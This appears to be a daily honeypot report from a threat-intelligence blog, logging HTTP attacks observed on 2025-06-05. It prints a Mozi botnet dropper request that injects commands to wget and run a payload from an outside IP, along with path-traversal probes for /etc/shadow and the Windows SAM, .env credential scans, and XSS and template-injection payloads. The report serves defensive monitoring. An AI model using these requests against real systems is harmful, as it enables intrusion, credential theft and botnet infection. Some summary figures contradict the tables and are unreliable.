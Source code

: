 ```yaml
---
title: "Report: 2025-06-05 "
date: 2025-06-05
desciption: "Report: 2025-06-05" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-05 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 47 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 6611 requests were recorded during the day, originating from 1 different countries, with a peak of 5484 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| US               | Dubai              |
| US               | Israel             |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                       |
|:---------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 117.200.201.56 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.200.201.56:57955/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                                                                      |
|-----:|----------------------:|:-------------------------------------------------------------------------------------------------------------|
|  263 |                     2 | GET /..%2f..%2f..%2f..%2f..%2f..%2fetc/php.ini HTTP/1.1                                                      |
|  310 |                     2 | GET /..%2f..%2f..%2f..%2f..%2f..%2fwindows\x5Cwin.ini HTTP/1.1                                               |
|  575 |                     2 | GET /..%2f..%2f..%2f..%2f..%2f..%2fwindows\x5Csystem32\x5Cconfig\x5CSAM HTTP/1.1                             |
|  883 |                     2 | GET /..%2f..%2f..%2f..%2f..%2f..%2fvar/log/nginx/access.log HTTP/1.1                                         |
|  900 |                     2 | GET /..%2f..%2f..%2f..%2f..%2f..%2fetc/hostname HTTP/1.1                                                     |
|  948 |                     2 | GET /api/teams/1/members HTTP/1.1                                                                            |
| 1024 |                     2 | GET /cgi-bin/luci/ HTTP/1.1                                                                                  |
| 1037 |                     2 | GET /..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd HTTP/1.1                                                       |
| 1107 |                     2 | GET /template?code={{ self }} HTTP/1.1                                                                       |
| 1615 |                     2 | GET /ws-broker?action=PATCH&target=/users/1/settings HTTP/1.1                                                |
| 1698 |                     2 | GET /..%2f..%2f..%2f..%2f..%2f..%2fetc/hosts HTTP/1.1                                                        |
| 1775 |                     2 | GET /.idea/workspace.xml HTTP/1.1                                                                            |
| 1871 |                     2 | GET /..%2f..%2f..%2f..%2f..%2f..%2froot/.bash_history HTTP/1.1                                               |
| 2389 |                     2 | GET /track?referrer=javascript:alert(document.domain) HTTP/1.1                                               |
| 2393 |                     2 | GET /..%2f..%2f..%2f..%2f..%2f..%2fetc/shadow HTTP/1.1                                                       |
| 2569 |                     2 | GET /..%2f..%2f..%2f..%2f..%2f..%2fproc/self/environ HTTP/1.1                                                |
| 2609 |                     2 | GET /test/template HTTP/1.1                                                                                  |
| 2781 |                     2 | GET /../../boot.ini HTTP/1.1                                                                                 |
| 2804 |                     2 | GET /jwt-decode HTTP/1.1                                                                                     |
| 2847 |                     1 | GET /.env.bak.2 HTTP/1.1                                                                                     |
| 2878 |                     1 | GET /.env-snapshot.tar.gz HTTP/1.1                                                                           |
| 2892 |                     1 | GET /.env-db-credentials HTTP/1.1                                                                            |
| 2895 |                     1 | GET /.env-docker HTTP/1.1                                                                                    |
| 2896 |                     1 | GET /.env-nginx HTTP/1.1                                                                                     |
| 2897 |                     1 | GET /.env-aws.env HTTP/1.1                                                                                   |
| 2898 |                     1 | GET /.env_cookie-settings HTTP/1.1                                                                           |
| 2899 |                     1 | GET /.env-status HTTP/1.1                                                                                    |
| 2900 |                     1 | GET /.env-staging-vars HTTP/1.1                                                                              |
| 2901 |                     1 | GET /.env-runner HTTP/1.1                                                                                    |
| 2903 |                     1 | GET /.env-reverse-proxy HTTP/1.1                                                                             |
| 2904 |                     1 | GET /.env.job HTTP/1.1                                                                                       |
| 2905 |                     1 | GET /.env-copy HTTP/1.1                                                                                      |
| 2920 |                     1 | GET /assets/js/config.js HTTP/1.1                                                                            |
| 2923 |                     1 | GET /js/env.js HTTP/1.1                                                                                      |
| 2924 |                     1 | GET /static/env.js HTTP/1.1                                                                                  |
| 2933 |                     1 | GET /api/admin HTTP/1.1                                                                                      |
| 2934 |                     1 | GET /api/dev HTTP/1.1                                                                                        |
| 2948 |                     1 | GET /.git/refs HTTP/1.1                                                                                      |
| 2955 |                     1 | GET /.env-tracking.log HTTP/1.1                                                                              |
| 2969 |                     1 | GET /.env_secrets HTTP/1.1                                                                                   |
| 2970 |                     1 | GET /.env_auth HTTP/1.1                                                                                      |
| 2971 |                     1 | GET /.env_config HTTP/1.1                                                                                    |
| 2984 |                     1 | GET /config/configuration.yml HTTP/1.1                                                                       |
| 2985 |                     1 | GET /config/databases.yml HTTP/1.1                                                                           |
| 2987 |                     1 | GET /_fragment?_path=what=-1&_controller=phpinfo&_hash=PJKZTykFk9HjPoH4H6ZxRbyJs0b5lS70K1bzuuO1Lg4= HTTP/1.1 |
| 2988 |                     1 | GET /mailer.ini HTTP/1.1                                                                                     |
| 2995 |                     1 | GET /ALFA_DATA/alfacgiapi HTTP/1.1                                                                           |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  5484 | GB                 |
|  1 |                   477 | US                 |
|  2 |                   221 | BG                 |
|  3 |                    64 | DE                 |
|  4 |                    58 | JP                 |
|  5 |                    46 | NL                 |
|  6 |                    38 | CA                 |
|  7 |                    33 | CN                 |
|  8 |                    21 | SC                 |
|  9 |                    21 | NG                 |
| 10 |                    20 | HK                 |
| 11 |                    18 | PL                 |
| 12 |                    13 | GH                 |
| 13 |                    12 | IN                 |
| 14 |                     9 | KR                 |
| 15 |                     7 | PT                 |
| 16 |                     7 | VN                 |
| 17 |                     7 | AO                 |
| 18 |                     5 | FR                 |
| 19 |                     5 | SG                 |
| 20 |                     5 | RU                 |
| 21 |                     4 | CH                 |
| 22 |                     4 | IL                 |
| 23 |                     4 | UA                 |
| 24 |                     3 | ID                 |
| 25 |                     3 | ES                 |
| 26 |                     3 | TW                 |
| 27 |                     3 | KZ                 |
| 28 |                     2 | IT                 |
| 29 |                     2 | BR                 |
| 30 |                     2 | LT                 |
| 31 |                     2 | BE                 |
| 32 |                     2 | TH                 |
| 33 |                     2 | BO                 |
| 34 |                     1 | PA                 |
| 35 |                     1 | SE                 |
| 36 |                     1 | AR                 |
| 37 |                     1 | IE                 |
